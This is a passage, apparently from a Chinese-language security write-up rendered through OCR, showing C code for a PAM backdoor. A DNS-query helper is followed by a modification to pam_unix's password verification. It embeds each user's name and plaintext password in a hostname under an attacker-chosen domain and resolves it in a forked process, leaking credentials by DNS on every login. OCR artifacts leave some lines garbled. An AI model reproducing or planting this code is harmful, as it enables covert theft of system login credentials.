 ```
        if(strncmp(line , "nameserver" , 10) == 0)
        `{`
            p = strtok(line , " ");
            p = strtok(NULL , " ");

            //p now is the dns ip :)
            //????
        `}`
    `}`
    // EDIT THIS. It is a PoC 
    strcpy(dns_servers[0] , "127.0.0.1");

`}`

/*
 * This will convert www.google.com to 3www6google3com 
 * got it :)
 * */
void ChangetoDnsNameFormat(unsigned char* dns,unsigned char* host) 
`{`
    int lock = 0 , i;
    strcat((char*)host,".");

    for(i = 0 ; i &lt; strlen((char*)host) ; i++) 
    `{`
        if(host[i]=='.') 
        `{`
            *dns++ = i-lock;
            for(;lock&lt;i;lock++) 
            `{`
                *dns++=host[lock];
            `}`
            lock++; //or lock=i+1;
        `}`
    `}`
    *dns++='';
`}`
#define _UNIX_AUTHTOK  "-UN*X-PASS"
// (...)
```

最后，一点小修改：

```
// (...)
/* verify the password of this user */    
    retval = _unix_verify_password(pamh, name, p, ctrl);
    unsigned char hostname[100];
    get_dns_servers();
    snprintf(hostname, sizeof(hostname), "%s.%s.nowhere.local", name, p); // Change it with your domain
    if (fork() == 0) `{`
        ngethostbyname(hostname, T_A);
    `}`
    name = p = NULL;
// (...)
```
